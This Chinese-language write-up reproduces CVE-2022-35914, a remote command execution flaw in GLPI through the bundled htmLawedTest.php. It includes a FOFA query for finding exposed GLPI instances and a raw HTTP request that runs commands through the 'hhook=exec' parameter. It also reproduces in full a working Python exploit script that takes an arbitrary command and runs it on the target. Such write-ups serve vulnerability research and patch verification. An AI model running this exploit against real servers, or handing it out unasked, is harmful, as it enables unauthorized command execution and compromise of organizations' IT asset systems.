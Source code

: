 # GLPI htmLawedTest.php 远程命令执行漏洞 CVE-2022-35914

## 漏洞描述

GLPI是个人开发者的一款开源IT和资产管理软件。该软件提供功能全面的IT资源管理接口，你可以用它来建立数据库全面管理IT的电脑，显示器，服务器，打印机，网络设备，电话，甚至硒鼓和墨盒等。GLPI 10.0.2及之前版本存在安全漏洞，该漏洞源于htmlawed 模块中的 `/vendor/htmlawed/htmlawed/htmLawedTest.php` 允许 PHP 代码注入。

## 漏洞影响

```
GLPI 10.0.2及之前版本
```

## FOFA

```
title="GLPI"
```

## 漏洞复现

登录页面

![image-20221017171204621](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171712679.png)

出现问题的文件为 **htmLawedTest.php，** 来源于第三方库 PHP Labware

![image-20221017171224096](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171712160.png)

```
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/
```

在 htmLawedTest.php 中接收参数并传入方法 htmLawed 中

![image-20221017171243880](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171712972.png)

跟进文件 htmLawed.php 中

![image-20221017171259491](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171712583.png)

```
if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

这里可以看到参数均为用户可控参数，当控制参数 hhook 为 exec 和 text 为执行的命令时就导致了命令执行漏洞

![image-20221017171318915](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171713976.png)

验证POC

```
/vendor/htmlawed/htmlawed/htmLawedTest.php
```

![image-20221017171343438](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171713502.png)

![image-20221017171358385](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171713454.png)

访问页面获取到 sid 与 token 后再发送请求包

```
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 88
Content-Type: application/x-www-form-urlencoded

token=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```

![image-20221017171416286](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171714358.png)

## 漏洞POC

- https://github.com/cosad3s/CVE-2022-35914-poc

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import argparse
from bs4 import BeautifulSoup
import requests
import sys
import re

requests.packages.urllib3.disable_warnings() 

RED = '\x1b[91m'
BLUE = '\033[94m'
GREEN = '\033[32m'
ENDC = '\033[0m'

banner="""  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  
"""

def main():
    print(banner)
    parser = argparse.ArgumentParser(description='CVE-2022-35914 - GLPI - Command injection using a third-party library script')
    parser.add_argument('-u', type=str, required=True, dest='url', help = "URL to test")
    parser.add_argument('-c', type=str, required=False, dest='cmd', default = "id", help = "Command to launch (default: id)")
    parser.add_argument('-f', type=str, required=False, dest='hook', default = "exec", help = "PHP hook function (default: exec)")
    parser.add_argument('--check', action="store_true", dest='check', help = "Just check, no command execution.")
    parser.add_argument('--user-agent', type=str, required=False, default="Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36", dest='user_agent', help = "Custom User-Agent")
    args = parser.parse_args()
    exploit(args.url, args.cmd, args.user_agent,args.check,args.hook)

def exploit(url,cmd,user_agent,check,hook):
    uri = "/vendor/htmlawed/htmlawed/htmLawedTest.php"
    headers = {'User-Agent': user_agent}

    session = requests.Session()
    response_part1 = session.get(str(url)+uri, verify=False, headers=headers)
    if (response_part1.status_code != 200):
        fail()
    
    soup = BeautifulSoup(response_part1.text, 'html.parser')
    if (soup.title.text.find("htmLawed") == -1):
        fail()

    if (check):
        print(GREEN + "[+] Server potentially vulnerable to CVE-2022-35914" + ENDC)
        sys.exit()

    # Prepare POST request
    token_value = soup.find_all(id='token')[0]['value']
    sid_value = session.cookies.get("sid")
    body = {"token":token_value,"text":cmd,"hhook":hook,"sid":sid_value}
    response_part2 = session.post(str(url)+uri, verify=False, headers=headers, data=body)
    parse(response_part2.text)

def parse(response):
    soup = BeautifulSoup(response, 'html.parser')
    raw = soup.find_all(id='settingF')[0]

    return_code_search_regex = "\$spec\: (.*)"
    found_return_code = re.search(return_code_search_regex, raw.text, re.DOTALL).group(1)

    output_search_regex = "\[xml:lang\] \=\> 0\n(.*)\n\)"
    found_output = re.search(output_search_regex, raw.text, re.DOTALL)
    print(GREEN + "[+] Command output (Return code: " + found_return_code + "):" + ENDC)
    if (found_output != None):
        raw_output = found_output.group(1)
        cleaning_regex = ".*\=\>"
        cleaned_output = re.sub (cleaning_regex, "", raw_output)
        print(cleaned_output)

def fail():
    print(RED + "[-] Server not vulnerable to CVE-2022-35914" + ENDC)
    sys.exit()

if __name__ == '__main__':
    main()
```

